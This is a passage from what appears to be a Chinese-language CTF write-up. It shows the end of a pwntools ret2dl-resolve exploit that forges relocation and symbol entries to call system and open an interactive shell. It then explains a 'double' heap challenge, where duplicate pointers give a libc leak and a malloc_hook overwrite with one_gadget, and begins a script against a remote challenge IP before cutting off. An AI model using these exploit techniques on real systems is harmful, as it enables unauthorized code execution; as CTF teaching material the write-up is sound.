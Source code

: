 ```python
payload2 += fake_reloc #base_stage+28
payload2 += 'b' * align
payload2 += fake_sym #base_stage+36
payload2 += "system\x00"
payload2 += 'a' * (80 - len(payload2))
payload2 += cmd +'\x00'
#payload2 += 'a' * (100 - len(payload2))
print len(payload2)
sleep(1)
p.sendline(payload2)
#p.sendline("icq0030af22ece42d03523c08138525f")
p.interactive()
```
![22](/img/2019-04-23/22.png)
#### double
![5](/img/2019-04-23/5.png)
由于这个对比，只要输入的`data`相同则不会分配堆块给`data`，造成两个指针指向同一个`data`。只要申请两个相同内容大小为`smallbin`，`free`掉 一个指针，`show`另一个指针即可获得`libc`的地址。同理只要`free`掉其中一个，在对另一个相同指向的指针进行`edit`，就可以改变`fd`。将`fd`改成`malloc_hook`，再将`malloc_hook`的值改成`one_gadget`即可getshell。
详细脚本如下：
```python
from pwn import *
#context(os='linux',arch='amd64',aslr = 'False',log_level='debug')
local = 0
if local:
	p = process("./pwn")
else:
	p = remote("39.97.228.196",60004)

def create(content):
	p.recvuntil("> ")
	p.sendline("1")
	sleep(0.1)
```